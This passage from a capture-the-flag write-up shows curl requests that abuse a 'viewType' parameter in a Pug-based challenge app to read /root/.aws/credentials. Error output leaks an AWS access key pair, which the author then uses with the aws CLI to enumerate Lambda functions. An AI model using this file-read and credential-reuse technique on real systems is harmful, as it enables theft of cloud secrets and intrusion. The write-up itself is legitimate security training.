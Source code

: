 ```sh
level-8 ➜ curl -XPOST "http://chals.tisc23.ctf.sg:28471/api/submit-reminder" --data "viewType=/root/.aws/config"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: /root/.aws/config:1:1<br> &nbsp;&gt; 1| [default]<br>-------^<br> &nbsp; &nbsp;2| region = ap-southeast-1<br> &nbsp; &nbsp;3| <br><br>unexpected text &quot;[defa&quot;<br> &nbsp; &nbsp;at makeError (/app/node_modules/pug-error/index.js:34:13)<br> &nbsp; &nbsp;at Lexer.error (/app/node_modules/pug-lexer/index.js:62:15)<br> &nbsp; &nbsp;at Lexer.fail (/app/node_modules/pug-lexer/index.js:1629:10)<br> &nbsp; &nbsp;at Lexer.advance (/app/node_modules/pug-lexer/index.js:1694:12)<br> &nbsp; &nbsp;at Lexer.callLexerFunction (/app/node_modules/pug-lexer/index.js:1647:23)<br> &nbsp; &nbsp;at Lexer.getTokens (/app/node_modules/pug-lexer/index.js:1706:12)<br> &nbsp; &nbsp;at lex (/app/node_modules/pug-lexer/index.js:12:42)<br> &nbsp; &nbsp;at Object.lex (/app/node_modules/pug/lib/index.js:104:9)<br> &nbsp; &nbsp;at Function.loadString [as string] (/app/node_modules/pug-load/index.js:53:24)<br> &nbsp; &nbsp;at compileBody (/app/node_modules/pug/lib/index.js:82:18)</pre>
</body>
</html>

level-8 ➜ curl -XPOST "http://chals.tisc23.ctf.sg:28471/api/submit-reminder" --data "viewType=/root/.aws/credentials"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: /root/.aws/credentials:1:1<br> &nbsp;&gt; 1| [default]<br>-------^<br> &nbsp; &nbsp;2| aws_access_key_id = AKIAQYDFBGMSQ542KJ5Z<br> &nbsp; &nbsp;3| aws_secret_access_key = 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<br><br>unexpected text &quot;[defa&quot;<br> &nbsp; &nbsp;at makeError (/app/node_modules/pug-error/index.js:34:13)<br> &nbsp; &nbsp;at Lexer.error (/app/node_modules/pug-lexer/index.js:62:15)<br> &nbsp; &nbsp;at Lexer.fail (/app/node_modules/pug-lexer/index.js:1629:10)<br> &nbsp; &nbsp;at Lexer.advance (/app/node_modules/pug-lexer/index.js:1694:12)<br> &nbsp; &nbsp;at Lexer.callLexerFunction (/app/node_modules/pug-lexer/index.js:1647:23)<br> &nbsp; &nbsp;at Lexer.getTokens (/app/node_modules/pug-lexer/index.js:1706:12)<br> &nbsp; &nbsp;at lex (/app/node_modules/pug-lexer/index.js:12:42)<br> &nbsp; &nbsp;at Object.lex (/app/node_modules/pug/lib/index.js:104:9)<br> &nbsp; &nbsp;at Function.loadString [as string] (/app/node_modules/pug-load/index.js:53:24)<br> &nbsp; &nbsp;at compileBody (/app/node_modules/pug/lib/index.js:82:18)</pre>
</body>
</html>
```

With these credentials, we are able to interact with the server using the `aws` cli command. By using the credentials obtained to configure our aws settings, we are able to run some functions on the server to enumerate it. 

```sh
level-8 ➜ aws lambda list-functions

An error occurred (AccessDeniedException) when calling the ListFunctions operation: User: arn:aws:iam::051751498533:user/blind_sql_injection-challenger is not authorized to perform: lambda:ListFunctions on resource: * because no identity-based policy allows the lambda:ListFunctions action
```
